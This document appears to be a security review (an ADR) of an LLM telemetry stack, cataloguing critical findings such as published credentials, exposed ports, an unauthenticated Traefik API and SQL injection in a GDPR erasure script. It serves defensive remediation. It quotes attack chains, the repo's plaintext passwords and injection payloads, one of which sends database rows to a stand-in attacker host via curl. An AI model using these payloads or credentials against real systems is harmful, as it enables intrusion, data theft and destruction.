



# ADR 0007: Critical Security Remediation Mandate — Adversarial Review of ADR-0006

| Field | Value |
| --- | --- |
| **ADR ID** | `ADR-SEC-REMEDIATION-0007` |
| **Title** | Critical Security Remediation Mandate — Adversarial Review of ADR-0006 |
| **Status** | **Proposed — BLOCKING** |
| **Date** | 2026-08-28 |
| **Reviewer Role** | Adversarial System Architecture & Security Review |
| **Amends** | [ADR-0006 — Infrastructure Resilience and Edge-Case Hardening](./0006-infrastructure-resilience-and-edgecase-hardening.md) |
| **Scope** | `packages/configs/llm-obs-infra` — compose topology, gateway, datastores, deployment scripts, health suite, compliance tooling |
| **Verdict** | **NOT PRODUCTION-READY. Compliance claims in ADR-0006 §8 must be withdrawn until remediated.** |

---

## 1. Executive Summary & Plain-Language Overview (Non-Technical Brief)

### What Is Happening in Plain Terms?
Think of this infrastructure as a **high-security building designed to store and monitor sensitive enterprise AI conversations and proprietary data**. 
- **The Intended Design (ADR-0006):** Described an impenetrable bank vault with an armed front gate, security guards scanning every document for private information (credit cards, passwords, API keys), encrypted storage lockers, and an unforgeable visitor log.
- **The Actual Reality in Code (ADR-0007 Findings):** 
  1. **All Backdoors Left Wide Open:** While there is a front gate (Traefik gateway), every single internal storage room (databases, message queues, caches) has its own external door left unlocked and facing the public street (`0.0.0.0`), completely bypassing the security guard.
  2. **Keys Stored on the Bulletin Board:** The master keys and passwords to all databases are written down in public project files, and every time the system starts, it resets all locks back to these default public keys.
  3. **Fake Redaction & Shredding:** Private data is transported in clear view before it ever reaches the redaction filter, and the automated "data deletion/erasure" tool doesn't actually delete data—it silently ignores errors and claims success.
  4. **The Smoke Alarm Was Turned Off:** The automated testing suite was coded in a way where warning alarms and broken encryption checks are automatically marked as "PASSED", giving false peace of mind.

### Why This Matters (Business & Compliance Impact)
- **Data Breach Risk:** Any external bad actor or compromised internal service can immediately steal unencrypted AI prompt/response logs, live API keys, and database records.
- **Regulatory Penalties (GDPR / HIPAA / SOC 2):** Claiming full compliance when data erasure, encryption-at-rest, and tamper-proof audit trails are non-functional creates severe legal and liability exposure.
- **Immediate Action Required:** All systems must be bound to internal-only networks, passwords rotated, true encryption and authentication implemented, and compliance claims temporarily retracted until remediation is complete.

---

## 2. In-Depth Security Architecture Diagrams

### 2.1 Reality vs. Claim: The Vulnerability Attack Surface (Current State)
The diagram below illustrates how an attacker bypasses the Traefik security perimeter due to raw datastore port publications (`0.0.0.0`), unencrypted internal transport, and exposed management interfaces.



---

### 2.2 Concrete Attack Chains: Step-by-Step Exploit Flow
This diagram details the exact 3-chain sequence an adversary or automated crawler can execute to achieve full infrastructure takeover without zero-days.

```mermaid
sequenceDiagram
    autonumber
    actor Attacker as 🚨 Adversary / Script
    participant Traefik as Traefik (:31411)
    participant Socket as /var/run/docker.sock
    participant Kafka as Kafka (:9092)
    participant OTel as OTel Collector (:4318)
    participant DB as AlloyDB / Postgres (:5432)

    Note over Attacker,DB: Attack Chain A: Host Takeover via Docker Socket
    Attacker->>Traefik: GET /api/rawdata (Unauthenticated)
    Traefik-->>Attacker: 200 OK (Full container topology & labels)
    Attacker->>Traefik: POST Docker API call via mounted socket
    Traefik->>Socket: Escalate to host root container creation
    Socket-->>Attacker: Root shell on host acquired 💥

    Note over Attacker,DB: Attack Chain B: Telemetry & API Key Interception
    Attacker->>OTel: Direct HTTP POST /v1/traces (Wildcard CORS, No Auth)
    Attacker->>Kafka: Connect to 0.0.0.0:9092 (PLAINTEXT, No SASL)
    Kafka-->>Attacker: Dump all unredacted prompt spans & OpenAI/Anthropic API keys 🔓

    Note over Attacker,DB: Attack Chain C: Data Deletion & Audit Trail Destruction
    Attacker->>DB: Connect to 0.0.0.0:5432 with published credentials
    Attacker->>DB: Exfiltrate proprietary customer data
    Attacker->>DB: DROP TABLE security_audit_logs; (No separation of privileges)
    DB-->>Attacker: Query OK (Incident erased, 0 audit trail remains) 🛑
```

---

### 2.3 Hardened Target Architecture (Post-Remediation Blueprint)
The target architecture strictly isolates the internal network, enforces edge mTLS/forward-auth, seals all database ports, and guarantees receiver-side redaction.



---

## 3. Executive Verdict

ADR-0006 is an *availability and ergonomics* document wearing the vocabulary of a *security* document. It is competent at what it actually does — port allocation, cgroup limits, log rotation, startup ordering — and it is materially misleading everywhere it claims SOC 2, ISO 27001, GDPR, HIPAA, or EU AI Act posture.

Three structural problems make the ADR worse than no document at all:

1. **It documents controls that are not implemented.** `no-new-privileges:true` is named twice in ADR-0006 (§8.6 diagram, §8.7.3 LLD, complete with a fabricated `prctl(PR_SET_NO_NEW_PRIVS, ...)` execution path). It appears **zero times** in `docker-compose.yml`. The "immutable audit log table" is a plain heap table in a `.sql` file that is **never mounted and never executed**. The "dual-write to ClickHouse" pipeline drawn in three separate diagrams **has no ClickHouse exporter in the collector config**.
2. **It presents the disabling of a security control as hardening.** Edge Case 13 records, as an achievement, that `curl` was given `-k` to stop certificate verification from failing. The recorded root cause — "self-signed RSA certificates cause `HTTP 000000`" — is the platform's TLS trust chain correctly reporting that it is untrustworthy. The fix silenced the alarm.
3. **Its evidence is a test suite engineered to pass.** The headline "✓ ALL 52/52 HEALTH & SECURITY CHECKS PASSED" is not falsifiable. Container checks count `[WARN]` as a pass. The TLS check passes on a bare TCP connect. Header checks never inspect a header's value. The Redis auth check passes when the Redis container does not exist. Compose healthchecks end in `|| exit 0`. And `manage.sh` invokes the whole suite as `bash "$health_script" || true`. A green run is compatible with a completely broken, wide-open stack.

A reviewer, auditor, or customer reading ADR-0006 would reasonably conclude this platform enforces authenticated, encrypted, isolated, PII-redacted telemetry handling. It does not. **Every backend datastore in this stack — Redis, Kafka, ClickHouse, AlloyDB, Tempo, Temporal, and the OTLP receivers — is published on `0.0.0.0` with either no authentication or a password published in this git repository, and the gateway that ADR-0006 presents as the security boundary can be bypassed entirely by connecting to the port directly.**

This ADR enumerates what must be fixed, ranked by exploitability, with evidence.

---

## 2. Review Method & Severity Model

Every finding below was verified by reading the checked-in artifact, not inferred from the ADR. Each carries a file and line reference. No finding is speculative; where a claim depends on runtime conditions, those conditions are stated.

| Severity | Definition | Gate |
| --- | --- | --- |
| **P0 — Critical** | Remote or trivially-local compromise of data, credentials, or the host; or an active false assurance to a regulator/auditor. | Blocks any deployment beyond an air-gapped laptop. |
| **P1 — High** | Missing control that ADR-0006 claims exists; or a defect that makes a security control non-functional. | Blocks shared/staging environments. |
| **P2 — Medium** | Real weakness with a mitigating factor, or a control that is decorative rather than enforcing. | Must be scheduled, must not be re-documented as complete. |
| **P3 — Low** | Hygiene, portability, and documentation-integrity defects. | Fix opportunistically. |

**Threat model applied:** an unauthenticated attacker on the same L2/L3 network as the Docker host (office LAN, cloud VPC, shared CI runner); a developer with a checkout of this repository; and a low-privilege local user on the Docker host. Not modelled: a root-level host compromise, which is out of scope for infrastructure config.

---

## 3. P0 — Critical Findings (Blocking)

### P0-1 — Every credential in this system is published in the repository, and `manage.sh` reinstalls the published values on every deploy

| | |
| --- | --- |
| **CWE** | CWE-798 Use of Hard-coded Credentials; CWE-259 Hard-coded Password |
| **Evidence** | `.env.example` (git-tracked) L16, L26, L31, L40; `scripts/manage.sh:40-46`; `README.md:175`, `:186` |

`.env.example` is tracked in git and contains what are plainly intended to be the operating credentials:

```
REDIS_PASSWORD=llmobs_redis_s3cret_2024
ALLOYDB_PASSWORD=llmobs_s3cret_2026
CLICKHOUSE_PASSWORD=llmobs_clickhouse_s3cret_2026
GF_SECURITY_ADMIN_PASSWORD=llmobs_admin_password
```

`.gitignore` excludes `.env`, which creates the *appearance* of secret hygiene. It is defeated by `manage.sh`:

```bash
ensure_env_file() {
  local pkg_dir=$1
  if [ -f "$pkg_dir/.env.example" ]; then
    echo -e "${BLUE}⚡ Regenerating fresh .env file from .env.example...${NC}"
    cp -f "$pkg_dir/.env.example" "$pkg_dir/.env"      # scripts/manage.sh:44
  fi
}
```

`ensure_env_file` is the **first** action of `execute_up_pipeline` (`scripts/manage.sh:55`). Consequences:

- An operator who rotates a password sees it **silently reverted to the published value on the next `./manage.sh up`**. Credential rotation is not merely absent; it is actively undone by the deployment tool.
- The live `.env` on this machine is byte-identical to the committed `.env.example` — verified. The published passwords are the running passwords.
- Anyone with read access to the repository — every developer, every CI job, every fork, every mirror, every backup of the source tree — holds the production credentials for four datastores and the Grafana admin account.

Compounding: `docker-compose.yml` defaults are weaker still. `ALLOYDB_PASSWORD:-password` (L270, L273, L300) and `GF_SECURITY_ADMIN_PASSWORD:-admin` (L226) mean a missing `.env` yields `admin`/`password` on an internet-reachable Postgres and Grafana. `README.md:186` documents `password` as the AlloyDB default.

**Required fix**
1. Treat all four passwords, and any derived session material, as **compromised**. Rotate them, then rotate whatever they protect.
2. Strip credential *values* from `.env.example`; leave key names with empty values and a comment. Placeholders must be non-functional (`REDIS_PASSWORD=` — not `changeme`, which becomes the real password in half of all deployments).
3. Delete `ensure_env_file`. Replace with a **fail-closed preflight**: if `.env` is absent, print instructions and exit non-zero. Never write `.env`.
4. Remove every `:-<password>` fallback from `docker-compose.yml`. Use the `${VAR:?VAR is required}` form so compose refuses to start rather than starting insecurely.
5. Move secrets out of `.env` and out of `environment:` entirely — see P0-9.
6. The values are in git history. Rotation alone is insufficient: purge history (`git filter-repo`) or, if the repo is not rewritable, formally document the exposure window and treat the values as burned forever.
7. Add secret scanning (gitleaks/trufflehog) as a pre-commit hook **and** a required CI gate.

---

### P0-2 — All four datastore passwords are committed in cleartext in provisioning files

| | |
| --- | --- |
| **CWE** | CWE-798; CWE-312 Cleartext Storage of Sensitive Information |
| **Evidence** | `config/grafana/provisioning/datasources/datasources.yml:27,33,41,50` (git-tracked); `config/clickhouse/users.d/default-user.xml:13` (git-tracked); `scripts/gdpr-erasure.sh:63,68`; `scripts/test-health.sh:373` |

`.gitignore` protects `.env` and nothing else. Meanwhile:

```yaml
# config/grafana/provisioning/datasources/datasources.yml — tracked in git
    secureJsonData:
      password: llmobs_clickhouse_s3cret_2026     # L27
    user: admin                                   # L33
    secureJsonData:
      password: llmobs_s3cret_2026                # L41
    secureJsonData:
      password: llmobs_redis_s3cret_2024          # L50
```

```xml
<!-- config/clickhouse/users.d/default-user.xml — tracked in git -->
<password><![CDATA[llmobs_clickhouse_s3cret_2026]]></password>
```

The Grafana file additionally sets `sslmode: disable` (L38) for the AlloyDB connection and `editable: true` (L9, L20, L35, L48) on every datasource, so any Grafana Editor can alter connection targets. The YAML key is literally named `secureJsonData`; Grafana encrypts it *at rest in its own database*, which provides no protection whatsoever to a value sitting in version control.

`gdpr-erasure.sh:63` and `test-health.sh:373` each hardcode `llmobs_s3cret_2026` as a fallback, so removing it from `.env` does not remove it from the system.

**Required fix**
1. Replace literal passwords with `$__file{/run/secrets/<name>}` (Grafana's file-provider syntax) or `${ENV_VAR}` expansion; set `editable: false` on all provisioned datasources; set `sslmode: require` (`verify-full` once an internal CA exists).
2. Replace the ClickHouse `<password>` element with `<password_sha256_hex>` sourced from a mounted secret, or move user definitions entirely to SQL-managed users created at init from a secret.
3. Delete every hardcoded credential fallback in `scripts/`. A missing credential must abort, not degrade to a known value.
4. Extend `.gitignore` to `config/**/secret*`, `backups/`, and add a CI check that fails on any tracked file matching credential patterns.

---

### P0-3 — SQL injection in the GDPR erasure utility, executing as database superuser

| | |
| --- | --- |
| **CWE** | CWE-89 SQL Injection |
| **Evidence** | `scripts/gdpr-erasure.sh:59-60`, `:73-74`, `:77-78` |

The `--user-id` / `--customer-id` argument is interpolated directly into three SQL statements with no escaping, quoting, or validation:

```bash
curl -s $AUTH_HEADER -X POST "http://localhost:31421/?database=${CH_DB}" \
  --data-binary "ALTER TABLE telemetry_spans DELETE WHERE user_id = '${TARGET_ID}' OR customer_id = '${TARGET_ID}';"

docker exec -e PGPASSWORD="$DB_PW" -i llmobs-alloydb-db psql -U "$DB_USER" -d "$DB_NAME" \
  -c "DELETE FROM user_metadata WHERE user_id = '${TARGET_ID}';"

docker exec -e PGPASSWORD="$DB_PW" -i llmobs-alloydb-db psql -U "$DB_USER" -d "$DB_NAME" \
  -c "INSERT INTO security_audit_logs (...) VALUES (..., '${TARGET_ID}', 'GDPR erasure executed for user ${TARGET_ID}');"
```

`TARGET_ID` reaches the parser inside single quotes with no `''` doubling. `psql -c` accepts multiple statements. `$DB_USER` is `admin`, the Postgres superuser. `$CH_USER` is ClickHouse `default`, which this stack grants `access_management` (see P0-8).

**Exploit.** Any input path that reaches this script — a support tool, an admin API, a ticket-driven runbook where an operator pastes a user-supplied identifier, a CI job parameter — yields arbitrary SQL as superuser:

```
--user-id="x'; DROP TABLE user_metadata; --"
--user-id="x'; COPY (SELECT * FROM user_metadata) TO PROGRAM 'curl -d @- https://attacker'; --"
```

The second form is remote code execution on the database container: `COPY ... TO PROGRAM` is available to Postgres superusers, and this script always connects as one.

This is a *privacy compliance* tool. It is the most privileged, least defended code path in the repository.

**Required fix**
1. Validate the identifier against a strict allowlist before any use: `[[ "$TARGET_ID" =~ ^[A-Za-z0-9_-]{1,64}$ ]] || { echo "invalid identifier" >&2; exit 2; }`.
2. Use parameter binding, not interpolation. For Postgres: `psql -v id="$TARGET_ID" -c 'DELETE FROM user_metadata WHERE user_id = :'"'"'id'"'"''`. For ClickHouse: pass `param_id` as a query parameter and reference `{id:String}` in the statement.
3. Create a dedicated, least-privilege erasure role with `DELETE` on exactly the target tables and `INSERT` on the audit table. Never `admin`, never `default`.
4. Add a regression test asserting that a quote-bearing identifier is rejected, not executed.

---

### P0-4 — The GDPR erasure utility reports success unconditionally, including when it erases nothing

| | |
| --- | --- |
| **CWE** | CWE-754 Improper Check for Unusual Conditions; CWE-392 Missing Report of Error Condition |
| **Evidence** | `scripts/gdpr-erasure.sh:60, 74, 78, 80`; absence of any `telemetry_spans` or `security_audit_logs` DDL execution |

All three data operations are written as:

```bash
... >/dev/null 2>&1 || true
```

and the script then prints, with no conditional:

```bash
echo -e "${GREEN}✓ GDPR data erasure completed successfully for ${TARGET_ID}.${NC}"   # L80
```

Output is discarded, exit codes are discarded, and no row count is checked. The script prints success if ClickHouse is down, if authentication fails, if the table does not exist, if the container is not running, or if it deleted nothing at all.

It is not a hypothetical that it deletes nothing:

- **`telemetry_spans` is never created.** No DDL for it exists anywhere in this repository, and — see P1-2 — the collector has no ClickHouse exporter, so nothing ever writes it. The ClickHouse deletion targets a table that does not exist.
- **`security_audit_logs` is never created.** `config/alloydb/security-audit.sql` exists but is referenced by nothing: `grep -rn "security-audit.sql" docker-compose.yml scripts/` returns nothing, and the AlloyDB service (`docker-compose.yml:277-278`) mounts only the `alloydb_data` volume — no `/docker-entrypoint-initdb.d` mount. The audit INSERT fails every time, silently.
- **Credentials are parsed as `grep ... | cut -d= -f2`** (L50-52, L67-69), which truncates any password containing `=`. A correct password can silently become a wrong one, producing an auth failure that `|| true` then hides.
- **`ALTER TABLE ... DELETE` in ClickHouse is an asynchronous mutation**, not a synchronous delete. Even against a real table, the script returns before erasure occurs, with no `mutations_sync=2` and no verification.

**And the erasure is incomplete by design.** GDPR Art. 17 requires erasure across all copies. This script touches two stores. Personal data in this architecture also lands in:

| Store | Contains | Erased? |
| --- | --- | --- |
| Tempo (`tempo_data`) | Full trace spans — i.e. LLM prompts and completions | **No** |
| Kafka (`kafka_data`) | Raw telemetry events, retained by time not by subject | **No** |
| Traefik access logs | Every request header including `Authorization` and `Cookie` (P0-10) | **No** |
| ClickHouse `system.opentelemetry_span_log` | Span data, explicitly configured at `config/clickhouse/config.d/custom.xml:13-17` | **No** |
| Redis | Per-user spend ledger keys | **No** |
| Container stdout logs (3×50 MB/service) | Collector `debug` exporter output (P2-6) | **No** |
| Backups in `backups/` | Full `pg_dumpall` snapshots | **No** |

**This is the single most serious finding in the review.** Every other issue is a security weakness. This one produces a *documented, timestamped, false attestation to a data subject and to a regulator* that their data was erased when it was not. ADR-0006 §8.2 presents this script as the platform's Right-to-Be-Forgotten implementation.

**Required fix**
1. Remove `set -e` reliance and every `|| true` on a data-mutating statement. Fail loudly on any error.
2. Capture and assert affected-row counts from each store. Print a per-store report. Exit non-zero if any store errored or is unreachable.
3. Extend coverage to every store in the table above, or explicitly document each store's retention-based erasure with an enforced TTL shorter than the legal response window (see P2-5).
4. Use `SETTINGS mutations_sync=2` for ClickHouse and poll `system.mutations` for completion.
5. Create the audit schema for real: mount `config/alloydb/` at `/docker-entrypoint-initdb.d/` and verify at startup that `security_audit_logs` exists. Refuse to erase if the audit sink is unavailable — an unlogged erasure is itself a compliance failure.
6. Write the audit entry **before and after** the operation (intent + outcome), and include per-store row counts in `details`.
7. Until all of the above ship, **withdraw the GDPR/CCPA claims in ADR-0006 §8.2.**

---

### P0-5 — Every datastore is published on `0.0.0.0`; the gateway is decorative, and UFW does not protect it

| | |
| --- | --- |
| **CWE** | CWE-668 Exposure of Resource to Wrong Sphere; CWE-1327 Binding to an Unrestricted IP Address |
| **Evidence** | `docker-compose.yml:64, 94, 138-139, 173-174, 202-203, 267, 294-295`; `scripts/prereqs/system-prereqs.sh:82-91` |

Compose publishes a host port for **every** service, with no interface binding:

| Service | Published | Authentication reachable at that port |
| --- | --- | --- |
| Redis | `31413:6379` | Password from this repo (P0-1) |
| Kafka | `31414:9092` | **None** — PLAINTEXT, no SASL (P0-9) |
| ClickHouse HTTP / native | `31421:8123`, `31422:9000` | Password from this repo |
| AlloyDB (Postgres) | `31420:5432` | Password from this repo, superuser `admin` |
| Tempo | `31416:3200`, `31423:4317` | **None** |
| OTel Collector | `31417:4318`, `31418:4317` | **None** (P1-1) |
| Temporal gRPC / UI | `31424:7233`, `31425:8080` | **None** |
| Grafana | `31415:3000` | Grafana login only, over plain HTTP |
| Traefik dashboard | `31411:8080` | **None** (P0-6) |

A `ports:` entry without an address binds `0.0.0.0`. Every one of these is reachable from any host that can route to the Docker host. ADR-0006 §8.8 ("Network isolation is enforced via an isolated Docker bridge network") and §8.4 (HIPAA "Port Isolation & Conflict Guard") describe a boundary that does not exist: **the Traefik TLS termination, the security headers, the rate limits, and the payload caps are all bypassed by connecting to the backend port directly.** Moving services to unusual port numbers (31410-31425) is not isolation; it is a rename.

**The firewall check makes this worse by creating false confidence.** `system-prereqs.sh:82-91`:

```bash
verify_firewall_rules() {
  if command -v ufw >/dev/null 2>&1; then
    ufw_status=$(sudo ufw status 2>/dev/null | grep -i "Status: active" || echo "")
    if [ -n "$ufw_status" ]; then
      echo -e "${YELLOW}⚠️ Warning: UFW Firewall active. Ensuring docker bridge interface pass-through...${NC}"
      sudo ufw allow in on llmobs-network to any >/dev/null 2>&1 || true
    fi
  fi
}
```

Two independent defects:

1. **`llmobs-network` is not an interface name.** The Docker bridge interface is `br-<network-id-prefix>`. `ufw allow in on llmobs-network` fails; `|| true` swallows it; the operator sees no error.
2. **It would not matter if it worked.** Docker inserts its own DNAT rules into the `nat` `PREROUTING` chain and forwarding rules into the `DOCKER` chain, which are evaluated *before* UFW's `filter INPUT` rules. **Published container ports are not filtered by UFW at all.** An operator who runs `ufw deny 31420` and sees UFW report "active" still has Postgres open to the LAN. ADR-0006 lists this check as a host pre-flight safeguard; it is a source of false assurance in exactly the scenario where it matters.

**Required fix**
1. Delete the `ports:` block from every service except `llmobs-traefik`. Inter-service traffic uses the bridge network and container DNS; it does not need host publication.
2. For unavoidable local debugging access, bind the loopback explicitly: `"127.0.0.1:31421:8123"`.
3. Split the topology into two networks: a `llmobs-edge` network holding Traefik + the services it fronts, and an `internal: true` `llmobs-data` network holding Redis, Kafka, ClickHouse, AlloyDB, and Tempo. `internal: true` removes the default route and blocks egress. Today everything sits on one flat `172.28.0.0/16` bridge where any compromised container reaches every datastore.
4. If host-level filtering is required, write rules into `DOCKER-USER` (the only chain Docker will not overwrite) and **delete `verify_firewall_rules`** — a check that cannot fail is worse than no check.
5. Add a real negative test: assert from a second host that ports 31413/31414/31420/31421/31422/31424 **refuse** connections. Today `test-health.sh` asserts the opposite (P1-3).

---

### P0-6 — Traefik API/dashboard runs with `api.insecure=true`, unauthenticated, published to the network, with the Docker socket mounted

| | |
| --- | --- |
| **CWE** | CWE-306 Missing Authentication for Critical Function; CWE-200 Information Exposure; CWE-732 Incorrect Permission Assignment |
| **Evidence** | `docker-compose.yml:14, 33, 36`; `config/traefik/traefik.yml:9-11`; `config/traefik/dynamic.yml:89-97` |

```yaml
command:
  - "--api.insecure=true"                                   # L14
ports:
  - "${PORT_TRAEFIK_DASHBOARD:-31411}:8080"                 # L33
volumes:
  - /var/run/docker.sock:/var/run/docker.sock:ro            # L36
```

`--api.insecure=true` exposes the full Traefik API **and** dashboard on the `traefik` entrypoint (`:8080`) with **no authentication**, and L33 publishes that to `0.0.0.0:31411`. Traefik's own documentation states this mode is for development only.

`http://<host>:31411/api/rawdata` returns the complete runtime configuration: every router rule, every backend service URL and internal port, every middleware, every TLS store, and the full service topology. That is a free, no-auth reconnaissance map of the entire internal network — including the internal hostnames and ports of ClickHouse, AlloyDB, Redis, and Tempo, which P0-5 has already made directly reachable.

The `dashboard-router` in `dynamic.yml:89-97` applies only `security-headers` and `rate-limit`. **There is no `basicAuth`, no `digestAuth`, and no `forwardAuth` middleware anywhere in this repository.** The dashboard is unauthenticated on both the `:8080` insecure entrypoint and the `websecure` router; the latter is gated solely by sending `Host: llmobs.gateway`, which any client can do. A Host header is a routing key, not a credential.

The Docker socket mount raises the ceiling on any Traefik compromise. Even read-only, the Docker API exposes `GET /containers/{id}/json` — which returns each container's full `Env` array. Since this stack passes every database password via `environment:` (P0-9), **read access to the socket is read access to every credential in the platform**, plus image digests, mounts, network layout, and the ability to enumerate and stream logs.

**Required fix**
1. Remove `--api.insecure=true` and delete the `dashboard` entrypoint. Remove the `31411` port publication.
2. If the dashboard is needed, expose it only via the `websecure` router behind `forwardAuth` to a real identity provider, or at absolute minimum `basicAuth` with a bcrypt hash supplied from a Docker secret — combined with an IP allowlist middleware.
3. Replace the direct socket mount with a socket proxy (e.g. `tecnativa/docker-socket-proxy`) permitting only `CONTAINERS=1` and `NETWORKS=1`, denying `EXEC`, `POST`, `IMAGES`, and `INFO`. The proxy must be on its own network with Traefik, not on the data network.
4. Better: drop the Docker provider entirely. Every route in this stack is already declared in `dynamic.yml`; the Docker provider is redundant and only adds attack surface.

---

### P0-7 — Redis: dangerous commands unrestricted, no ACLs, no TLS, exposed to the network with a published password

| | |
| --- | --- |
| **CWE** | CWE-306; CWE-732; CWE-94 Code Injection |
| **Evidence** | `config/redis/redis.conf:4, 11-14`; `docker-compose.yml:62, 64, 73` |

```
bind 0.0.0.0                    # redis.conf:4
rename-command FLUSHALL ""      # :12
rename-command FLUSHDB ""       # :13
rename-command DEBUG ""         # :14
```

The blocklist covers three commands and misses every command that actually matters:

`CONFIG`, `MODULE`, `EVAL`, `EVALSHA`, `SCRIPT`, `REPLICAOF`/`SLAVEOF`, `SHUTDOWN`, `SAVE`, `BGSAVE`, `KEYS`, `MIGRATE`, `RESTORE`, `ACL`.

With `CONFIG` available and `appendonly yes` (L17) already configured, an authenticated client has the textbook Redis file-write primitive: `CONFIG SET dir <path>` + `CONFIG SET dbfilename <name>` + `BGSAVE` writes attacker-controlled bytes to an arbitrary path inside the container, which combined with `MODULE LOAD` yields **code execution inside the Redis container**. `REPLICAOF` lets an attacker repoint the ledger at a hostile primary and replace its entire contents. `SHUTDOWN NOSAVE` destroys it.

Authentication is not a barrier here, because:
- the password is `llmobs_redis_s3cret_2024`, published in this repository (P0-1);
- port `31413` is published to `0.0.0.0` (P0-5);
- there is no TLS, so the password crosses the network in cleartext on every `AUTH`;
- the password is also passed on the command line (`docker-compose.yml:62`) and inside the healthcheck (`:73`), making it visible in `ps` output on the host and in `docker inspect`.

`bind 0.0.0.0` inside the container is defensible on a private bridge; it is not defensible combined with host publication. There is no `protected-mode` directive, no `user`/ACL definition, no `maxclients`, and no `requirepass` in the config file itself (it is appended as a CLI flag).

**Required fix**
